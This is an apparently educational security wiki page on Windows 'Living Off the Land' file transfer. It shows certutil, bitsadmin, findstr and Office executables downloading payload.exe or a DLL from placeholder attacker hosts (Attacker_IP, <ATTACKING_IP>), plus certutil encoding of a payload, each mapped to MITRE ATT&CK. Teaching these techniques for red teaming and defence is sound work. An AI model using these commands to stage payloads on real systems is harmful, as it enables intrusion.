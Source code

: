# File Operations

## Theory

Here, we will show commonly used tools used by "Living Off the Land" techniques about file operations including download, upload, and encoding. This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io)

## Practice

{% tabs %}
{% tab title="Certutil.exe" %}
Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. However, people found that certutil.exe could transfer and encode files unrelated to certification services.

```bash
#Dowload a file
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe

#Encode a file
certutil -encode payload.exe Encoded-payload.txt
```

The MITRE ATT\&CK framework identifies this techniques as [Ingress tool transfer (T1105)](https://attack.mitre.org/techniques/T1105/) and [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)
{% endtab %}

{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Dowload a file
bitsadmin.exe /transfer /Download /priority Foreground http://<ATTACKER_IP>/payload.exe c:\Users\Pwned\Desktop\payload.exe
```

The MITRE ATT\&CK framework identifies this technique as [BITS Job (T1197)](https://attack.mitre.org/techniques/T1197/)
{% endtab %}

{% tab title="FindStr.exe" %}
[Findstr](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) is a Microsoft built-in tool used to find text and string patterns in files. The findstr tool is useful in that helps users and system administrators to search within files or parsed output. However, an unintended way was found by using findstr.exe to download remote files from SMB shared folders within the network as follows,

```bash
#Dowload a file
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

he MITRE ATT\&CK framework identifies this technique as [Ingress tool transfer (T1105)](https://attack.mitre.org/techniques/T1105/)
{% endtab %}

{% tab title="Office Binaries" %}
We may use binaries part of Office 365 (Word, Excel, Powerpoint) to download malicious payloads. It will download a remote payload and place it in the cache folder

```powershell
#Dowload a file using PowerPoint
Powerpnt.exe "http://<ATTACKING_IP>/TeamsAddinLoader.dll"

#Dowload a file using Excel
Excel.exe http://<ATTACKING_IP>/TeamsAddinLoader.dll

#Dowload a file using Word
winword.exe "http://<ATTACKING_IP>/TeamsAddinLoader.dll"
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file operations. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://lolbas-project.github.io/#" %}
